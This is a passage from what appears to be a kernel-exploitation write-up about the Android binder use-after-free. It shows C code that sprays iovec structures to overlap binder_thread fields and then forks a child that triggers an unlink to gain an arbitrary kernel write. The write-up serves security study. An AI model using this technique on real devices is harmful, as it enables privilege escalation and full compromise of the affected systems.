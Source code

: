 The memory layout will be the same as the one after the spray done by `task_struct_leak`:

<img src="https://github.com/cutesmilee/cutesmilee.github.io/raw/main/images/iovec_spray.png" alt="iovec_spray" style="zoom:50%;" />

Now let's try to see what values overlap the `binder_thread` fields, and why.

```c
iovecs[IOVEC_OVERLAP_INDEX].iov_base = dummy_page;
iovecs[IOVEC_OVERLAP_INDEX].iov_len = 1;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_base = (void *) 0x41414141;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
iovecs[IOVEC_OVERLAP_INDEX + 2].iov_base = (void *) 0x42424242;
iovecs[IOVEC_OVERLAP_INDEX + 2].iov_len = 0x8;
```

As we did before we write the `mmap()`ed page to the `iov_base` of the first (valid) iovec to avoid locking issues, the `iov_len` can be any value, we just place 1 to get a smaller return value from `recvmsg()` (it returns the sum of all `iov_len` of valid iovecs), the other two `iov_base` pointers are set to random addresses because they'll be overwritten later, but the `iov_len` fields are so important, the second one has to be 0x8 + 0x8 + 0x8 + 0x8, we'll see later why, the last one is set to 0x8 since it's gonna be the size of the arbitrary write, since we're gonna write a kernel pointer (which is 8 bytes long), 0x8 is the right size.

Now that we sprayed our iovec array, the child triggers the unlink as we did in the previous stage, so that `iovec[11].iov_base` points to `iovec[10].iov_len`.

```c
pid_t child = fork();

if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    unlink_kptr_write();
	  [...]
}
```
